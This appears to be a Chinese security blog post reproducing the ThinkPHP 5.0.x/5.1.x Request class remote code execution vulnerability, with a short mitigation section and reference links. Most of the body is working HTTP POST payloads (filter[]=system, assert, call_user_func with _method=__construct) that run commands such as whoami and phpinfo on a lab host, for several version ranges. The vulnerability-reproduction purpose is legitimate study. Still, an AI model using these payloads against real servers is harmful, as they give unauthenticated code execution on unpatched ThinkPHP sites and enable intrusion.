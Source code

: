 ```yaml
---
title: ThinkPHP5 核心类 Request 远程代码漏洞分析
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - ThinkPHP 5
  - ThinkPHP
author: Chace
date: 2020-07-11 18:47:35
---
```

# ThinkPHP5 核心类 Request 远程代码漏洞复现+Poc



# 漏洞介绍

2019年1月11日，ThinkPHP团队发布了一个[补丁更新](https://blog.thinkphp.cn/910675)，修复了一处由于不安全的动态函数调用导致的远程代码执行漏洞。

ThinkPHP官方发布新版本5.0.24，在1月14日和15日又接连发布两个更新，这三次更新都修复了一个安全问题，该问题可能导致远程代码执行 ，这是ThinkPHP近期的第二个高危漏洞，两个漏洞均是无需登录即可远程触发，危害极大。

之前写过一篇文章《[ThinkPHP-5-代码执行漏洞复现-POC](https://chaceshadow.github.io/2020/06/09/ThinkPHP-5-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-POC/#method%E4%BB%BB%E6%84%8F%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95%E5%AF%BC%E8%87%B4rce)》里面有提过一次，这篇文章主要对其不同版本下进行详细的复现。

<!--more-->

# 影响版本

启明星辰ADLab安全研究员对ThinkPHP的多个版本进行源码分析和验证后，确认具体受影响的版本为ThinkPHP5.0-5.0.23完整版。



# 漏洞复现

本地环境采用ThinkPHP 5.0.10和5.0.22完整版+PHP7.0.9+Apache2.4.39进行复现。安装环境后执行POC即可执行系统命令

## 版本 5.0.0-5.0.12
> Payload：

```http
POST /public/index.php?s=index/index/index HTTP/1.1
Host: 192.168.1.236
Content-Length: 48
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

s=whoami&_method=__construct&filter[]=system
```

POC执行结果如下图：   ![1](1.png)

   ![2](2.png)



## 版本 5.0.12-5.0.23

在5.0.12之后的版本中，在`thinkphp/library/think/App.php的module`方法中增加了设置filter过滤属性的代码

   ![3](3.png)

开启debug调试模式，打开配置文件`config.php`

   ![4](4.png)

修改为

   ![5](5.png)



  >Payload 1

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
  ```

POC执行结果如下图：   

   ![6](6.png)
   ![7](7.png)

  >Payload 2

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=think\__include_file&server[]=phpinfo&get[]=../runtime/log/202007/08.log&x=phpinfo();
  ```

POC执行结果如下图：   

   ![8](8.png)
   ![9](9.png)

  >Payload 3

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=assert&server[]=phpinfo&get[]=phpinfo()
  ```

POC执行结果如下图：   

   ![10](10.png)


  >Payload 4

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
  ```

POC执行结果如下图：   

   ![11](11.png)

## 版本 5.1.10（PHP7.3.4+Apache2.4.39）

5.1和5.2两个版本现在用的很少，并且针对于这两个版本有点鸡肋，需要index.php文件中跳过报错提示。 语句：error_reporting(0);

需设置 `error_reporting(0);`

>  Payload：

```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

c=system&f=whoami&_method=filter
```

一开始执行结果如下图：

![12](12.png)

找到RuleGroup.php 新增一行代码error_reporting(0);跳过报错

![13](13.png)

然后查看结果

![14](14.png)

# 漏洞防御

1. 线上环境建议关闭debug模式

2. 升级到ThinkPHP 5.0.24

3. 手动增加过滤，在`thinkphp/library/think/Request.php`添加如下代码：

   ![12](12.png)
   
   

# 参考链接

[ThinkPHP5 远程代码执行漏洞分析](https://seaii-blog.com/index.php/2019/01/14/88.html)

[ThinkPHP 5.0.0~5.0.23 RCE 漏洞分析](https://xz.aliyun.com/t/3845#toc-0)

[ThinkPHP5 核心类 Request 远程代码漏洞分析](https://paper.seebug.org/787/)

[ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)